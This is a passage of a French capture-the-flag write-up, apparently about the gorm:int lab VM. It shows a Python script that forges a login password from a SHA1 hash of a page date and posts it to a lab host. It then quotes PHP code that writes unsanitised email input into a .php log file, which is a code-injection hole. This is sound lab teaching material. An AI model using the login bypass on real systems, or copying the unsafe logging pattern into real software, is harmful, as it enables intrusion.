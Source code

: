 ```python
soup = BeautifulSoup(response.text, "lxml")

date_text = soup.find("b").text.strip()
print("Date is '{}'".format(date_text))
pass1 = sha1(date_text.encode()).hexdigest()[:20]
print("pass is", pass1)

response = requests.post(
    "http://192.168.1.42/g0rmint/login.php",
    data={
        "email": "w3bdrill3r@gmail.com",
        "pass": pass1,
        "submit": "submit"
    },
    allow_redirects=True
)

if "Login to your account" in response.text:
    print("fail")
else:
    print("success")
```

Write what where
----------------

On a beau être authentifié, il n'y a pas d'über fonctionnalités sur le site.  

La page de login fait tout de même un appel intéressant lors des tentatives de connexion infructueuses :  

```php
$log = $email;
$reason = "Failed login attempt detected with email: ";
addlog($log, $reason);
```

Cette fonction est définie dans le fichier *config.php* :  

```php
function addlog($log, $reason) {
    $myFile = "s3cr3t-dir3ct0ry-f0r-l0gs/" . date("Y-m-d") . ".php";
    if (file_exists($myFile)) {
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    } else {
        $fh = fopen($myFile, 'w');
        fwrite($fh, file_get_contents("dummy.php") . "<br>\n");
        fclose($fh);
        $fh = fopen($myFile, 'a');
        fwrite($fh, $reason . $log . "<br>\n");
    }
    fclose($fh);
}
```
